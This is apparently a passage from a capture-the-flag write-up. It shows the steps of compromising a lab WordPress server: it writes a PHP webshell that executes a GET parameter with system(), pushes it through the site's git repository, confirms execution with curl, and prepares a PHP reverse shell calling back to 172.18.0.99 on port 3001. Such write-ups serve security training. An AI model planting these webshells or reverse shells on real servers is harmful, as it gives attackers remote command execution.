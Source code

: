 #### Create webshell for server

```shell
echo "<?php echo system(\$_GET['j1v37u2k3y_code']); ?>" > j1v37u2k3y.php
```

#### Push the code to repo

```shell
git add .
git commit -m "adding some code to test"
git push git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git main
```

#### Test our code to check to see if works on the remote server

```shell
curl "http://wordpress.flag.net.internal/j1v37u2k3y.php?j1v37u2k3y_code=ls"
```

[![](/assets/images/sans/2022/beb2a0d1.png)](/assets/images/sans/2022/beb2a0d1.png)

#### WE HAVE CODE EXECUTION (now for a reverse shell)

> On local machine

```shell
mkdir -p tools
cd tools	
git clone https://github.com/welikechips/shellcode.git
path=$(pwd)
ln -s ${path}/shellcode/shellcode.py /usr/bin/shellcode
cd shellcode
pip3 install -r requirements.txt
shellcode 172.18.0.99 3001
# select 0 -> then 26
cat php-reverse-shell.php
```

> Paste that shell to j1v37u2k3y.php
> Set up our listener
 